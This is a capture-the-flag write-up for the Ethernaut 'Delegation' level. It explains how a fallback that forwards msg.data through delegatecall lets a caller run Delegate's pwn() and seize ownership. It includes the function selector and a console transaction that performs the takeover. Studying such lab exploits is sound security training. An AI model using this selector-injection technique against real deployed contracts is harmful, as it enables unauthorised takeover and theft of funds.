 # 06. Delegation

The goal of this level is for you to claim ownership of the instance you are given.

Things that might help:

- Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
- Fallback methods
- Method ids

## Solution

What should we use to pwn the contract is pretty obvious:

```solidity
function pwn() public {
  owner = msg.sender;
}
```

Things are not such simple as the contract we are using is not `Delegate` but `Delegation`, which, in turn, provides a nice fallback function:

```solidity
fallback() external {
  (bool result,) = address(delegate).delegatecall(msg.data);
  if (result) {
    this;
  }
}
```

Via `delegatecall` on `Delegate` contract we can achieve our result by calling `pwn` function.
  
Great explaination of delegatecall [here](https://medium.com/coinmonks/delegatecall-calling-another-contract-function-in-solidity-b579f804178c)

We need to figure out what the `pwn` function address is. 

> In Ethereum function call can be expressed by bytecode as long as 4 + 32 * N bytes. And this bytecode consists of two parts.
> - **Function Selector**: This is first 4 bytes of function call’s bytecode. This is generated by hashing target function’s name plus with the type of its arguments excluding empty space. For example savaValue(uint). Currently, Ethereum uses keccak-256 hashing function to create function selector. Based on this function selector, EVM can decide which function should be called in the contract.
> - **Function Argument**: Convert each value of arguments into a hex string with the fixed length of 32bytes. If there is more than one argument, concatenate
> If the user passes this 4 + 32 * N bytes bytecode to the data field of the transaction. EVM can find which function should be executed then inject arguments to that function.

Solidity provide a useful function to calculate the function address: `abi.encodeWithSignature('pwn()') == 0xdd365b8b`

Now we just need to call the `Delegation` fallback function and `pwn`:

```javascript
await contract.owner() == player
// -> false
await contract.sendTransaction({from: player, data: '0xdd365b8b'})
await contract.owner() == player
// -> true
```
